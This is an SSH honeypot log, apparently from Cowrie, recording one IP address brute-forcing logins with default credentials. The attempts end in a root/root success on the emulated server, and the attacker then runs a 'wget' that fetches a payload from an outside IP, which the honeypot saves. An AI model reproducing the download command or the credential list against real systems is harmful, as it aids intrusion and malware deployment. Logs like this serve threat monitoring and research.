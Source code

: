 ```verilog
2023-11-30T01:42:07.464818Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: wget http://94.156.68.152/ah
2023-11-30T01:42:57.566448Z [HoneyPotSSHTransport,46,204.76.203.13] Saved redir contents with SHA-256 199d11d0fd7043fe9206954ed8bc7b54d1912013a2a71bdf8bb007b71bb490c8 to var/lib/cowrie/downloads/199d11d0fd7043fe9206954ed8bc7b54d1912013a2a71bdf8bb007b71bb490c8
2023-11-30T01:42:57.567406Z [HoneyPotSSHTransport,46,204.76.203.13] Closing TTY Log: var/lib/cowrie/tty/35418a8d6dcb23a0ee6716fc1f7ae2255bd9f34584706ff5b8c6f8f42b98100f after 50 seconds
2023-11-30T01:42:57.643590Z [HoneyPotSSHTransport,46,204.76.203.13] avatar root logging out
2023-11-30T01:42:57.643806Z [HoneyPotSSHTransport,46,204.76.203.13] Connection lost after 51 seconds
2023-11-30T01:41:53.571325Z [HoneyPotSSHTransport,42,204.76.203.13] Remote SSH version: SSH-2.0-libssh2_1.10.0
2023-11-30T01:41:53.647609Z [HoneyPotSSHTransport,42,204.76.203.13] SSH client hassh fingerprint: 63ae64767f334c6a74647d80edb0291e
2023-11-30T01:41:54.047697Z [HoneyPotSSHTransport,42,204.76.203.13] first time for 204.76.203.13, need: 5
2023-11-30T01:41:54.047814Z [HoneyPotSSHTransport,42,204.76.203.13] login attempt: 1
2023-11-30T01:41:54.085794Z [HoneyPotSSHTransport,42,204.76.203.13] login attempt [b'admin'/b'admin'] failed
2023-11-30T01:41:55.166312Z [HoneyPotSSHTransport,42,204.76.203.13] Got remote error, code 11 reason: b'end'
2023-11-30T01:41:55.166817Z [HoneyPotSSHTransport,42,204.76.203.13] Connection lost after 1 seconds
2023-11-30T01:41:55.242107Z [HoneyPotSSHTransport,43,204.76.203.13] Remote SSH version: SSH-2.0-libssh2_1.10.0
2023-11-30T01:41:55.317557Z [HoneyPotSSHTransport,43,204.76.203.13] SSH client hassh fingerprint: 63ae64767f334c6a74647d80edb0291e
2023-11-30T01:41:55.711661Z [HoneyPotSSHTransport,43,204.76.203.13] login attempt: 2
2023-11-30T01:41:55.750345Z [HoneyPotSSHTransport,43,204.76.203.13] login attempt [b'admin'/b'password'] failed
2023-11-30T01:41:58.998769Z [HoneyPotSSHTransport,43,204.76.203.13] Got remote error, code 11 reason: b'end'
2023-11-30T01:41:58.999284Z [HoneyPotSSHTransport,43,204.76.203.13] Connection lost after 3 seconds
2023-11-30T01:41:59.075196Z [HoneyPotSSHTransport,44,204.76.203.13] Remote SSH version: SSH-2.0-libssh2_1.10.0
2023-11-30T01:42:02.031931Z [HoneyPotSSHTransport,44,204.76.203.13] SSH client hassh fingerprint: 63ae64767f334c6a74647d80edb0291e
2023-11-30T01:42:03.676742Z [HoneyPotSSHTransport,44,204.76.203.13] login attempt: 3
2023-11-30T01:42:03.714830Z [HoneyPotSSHTransport,44,204.76.203.13] login attempt [b'ubnt'/b'ubnt'] failed
2023-11-30T01:42:04.792951Z [HoneyPotSSHTransport,44,204.76.203.13] Got remote error, code 11 reason: b'end'
2023-11-30T01:42:04.793713Z [HoneyPotSSHTransport,44,204.76.203.13] Connection lost after 5 seconds
2023-11-30T01:42:04.868721Z [HoneyPotSSHTransport,45,204.76.203.13] Remote SSH version: SSH-2.0-libssh2_1.10.0
2023-11-30T01:42:04.944538Z [HoneyPotSSHTransport,45,204.76.203.13] SSH client hassh fingerprint: 63ae64767f334c6a74647d80edb0291e
2023-11-30T01:42:05.336281Z [HoneyPotSSHTransport,45,204.76.203.13] login attempt: 4
2023-11-30T01:42:05.373678Z [HoneyPotSSHTransport,45,204.76.203.13] login attempt [b'admin'/b'123456'] failed
2023-11-30T01:42:06.452556Z [HoneyPotSSHTransport,45,204.76.203.13] Got remote error, code 11 reason: b'end'
2023-11-30T01:42:06.453447Z [HoneyPotSSHTransport,45,204.76.203.13] Connection lost after 1 seconds
2023-11-30T01:42:06.528321Z [HoneyPotSSHTransport,46,204.76.203.13] Remote SSH version: SSH-2.0-libssh2_1.10.0
2023-11-30T01:42:06.603497Z [HoneyPotSSHTransport,46,204.76.203.13] SSH client hassh fingerprint: 63ae64767f334c6a74647d80edb0291e
2023-11-30T01:42:06.955516Z [HoneyPotSSHTransport,46,204.76.203.13] login attempt: 5
2023-11-30T01:42:06.993253Z [HoneyPotSSHTransport,46,204.76.203.13] login attempt [b'root'/b'root'] succeeded
2023-11-30T01:42:06.994875Z [HoneyPotSSHTransport,46,204.76.203.13] Initialized emulated server as architecture: linux-x64-lsb
2023-11-30T01:42:07.264680Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: enable
2023-11-30T01:42:07.265628Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: enable 
```